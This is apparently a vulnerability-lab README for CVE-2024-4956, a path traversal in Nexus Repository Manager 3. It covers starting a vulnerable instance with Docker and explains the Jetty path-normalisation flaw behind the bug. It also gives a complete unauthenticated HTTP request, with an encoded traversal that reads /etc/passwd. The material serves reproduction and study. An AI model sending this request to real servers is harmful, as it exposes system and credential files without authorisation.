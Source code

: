 # Nexus Repository Manager 3 Unauthenticated Path Traversal (CVE-2024-4956)

[中文版本（Chinese version）](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

A path traversal vulnerability has been discovered in Nexus Repository 3 before version 3.68.1, the vulnerability allows for an attacker to craft a URL to return any file as a download, including system files outside of Nexus Repository application scope, without any authentication. 

References:

- <https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16>

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.68.0:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus.

## Exploit

Just like SpringMVC CVE-2018-1271 from Orange Tsai's [share](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf), Jetty's `URIUtil.canonicalPath()` also treats the empty string as a directory whih is the root case of this vulnerability:

![](1.png)

Simply send following request to reproduce the issue:

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

As you can see, `/etc/passwd` has been exposed directly:

![](2.png)
